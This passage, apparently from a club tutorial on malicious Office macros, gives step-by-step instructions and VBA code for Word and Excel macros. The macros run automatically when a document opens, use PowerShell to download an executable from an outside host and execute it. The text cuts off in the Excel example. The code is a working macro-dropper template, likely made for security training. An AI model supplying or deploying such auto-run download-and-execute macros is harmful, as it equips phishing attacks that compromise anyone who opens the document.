 1. Click on the **View** tab in the menu bar.
2. Select **Macros** -> **View Macros**.
3. Enter a name for your macro and click **Create**.

Here's an example of a Word macro:

```vb
Sub AutoOpen()
    Dim exec As String
    Dim curDirectory As String
    
    'Get the current directory
    curDirectory = CurDir()
    
    'Replace any potential problematic characters (like \) for PowerShell string
    curDirectory = Replace(curDirectory, "\", "\\")

    'Build the PowerShell command to download and execute the file in the current directory
    exec = "powershell.exe -Command ""(new-object net.webclient).DownloadFile('https://umlcyber.club/open_notepad.exe', '" & curDirectory & "\\open_notepad.exe'); Start-Process '" & curDirectory & "\\open_notepad.exe'"""

    'Execute the PowerShell command
    Shell (exec)
End Sub

Sub Document_Open()
    AutoOpen
End Sub
```

When saving your file, select `Save As` and save it as a `Word Macro-Enabled Document (*.docm)` so your macros are saveed with the document.

#### Excel
Excel macros are slightly different from word macros. For example, this is the equivalent of the word macro:

```vb
Sub Auto_Open()
    Dim exec As String
    Dim curDirectory As String
    
    'Get the directory of the currently opened Excel workbook
    curDirectory = ThisWorkbook.Path
    
    'If the workbook has never been saved, the path will be empty
    If curDirectory = "" Then
        MsgBox "Workbook must be saved first."
        Exit Sub
    End If

    'Replace any potential problematic characters (like \) for PowerShell string
    curDirectory = Replace(curDirectory, "\", "\\")

    'Build the PowerShell command to download and execute open_notepad.exe in the workbook's directory
    exec = "powershell.exe -NoExit -Command ""(new-object net.webclient).DownloadFile('https://umlcyber.club/open_notepad.exe', '" & curDirectory & "\\open_notepad.exe'); Start-Process '" & curDirectory & "\\open_notepad.exe'"""

    'Execute the PowerShell command
    Shell (exec)
End Sub

Sub Workbook_Open()
```